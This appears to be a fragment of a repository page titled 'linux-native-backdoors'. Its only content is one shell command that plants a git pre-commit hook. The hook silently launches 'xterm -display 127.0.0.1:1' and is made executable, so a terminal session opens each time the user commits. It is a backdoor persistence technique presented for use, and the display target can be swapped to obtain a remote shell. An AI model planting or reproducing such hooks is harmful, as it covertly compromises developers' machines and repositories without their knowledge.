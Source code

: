 linux-native-backdoors
======================

echo "xterm -display 127.0.0.1:1 &" > .git/hooks/pre-commit; chmod +x .git/hooks/pre-commit

